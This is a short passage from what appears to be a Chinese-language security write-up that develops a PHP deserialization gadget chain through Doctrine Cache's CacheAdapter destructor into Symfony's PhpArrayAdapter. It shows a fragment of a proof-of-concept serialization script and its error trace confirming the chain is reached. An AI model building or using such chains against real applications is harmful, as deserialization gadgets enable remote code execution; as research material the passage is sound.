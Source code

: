 ```bash
$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

在没有任何对象被定义的情况下，成功到达函数，输出如下所示。

```bash
$ php unserialize.php 

Deprecated: is_file(): Passing null to parameter #1 ($filename) of type string is deprecated in /tmp/poc/vendor/symfony/cache/Adapter/PhpArrayAdapter.php on line 391

Fatal error: Uncaught Error: Call to a member function deleteItem() on null in /tmp/poc/vendor/symfony/cache/Adapter/PhpArrayAdapter.php:196
Stack trace:
#0 /tmp/poc/vendor/symfony/cache-contracts/CacheTrait.php(43): Symfony\Component\Cache\Adapter\PhpArrayAdapter->deleteItem('0')
#1 /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(227): Symfony\Component\Cache\Adapter\PhpArrayAdapter->delete('0')
#2 /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#3 /tmp/poc/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#4 {main}
  thrown in /tmp/poc/vendor/symfony/cache/Adapter/PhpArrayAdapter.php on line 196
```

从 PhpArrayAdapter 定义到达代码，如下：
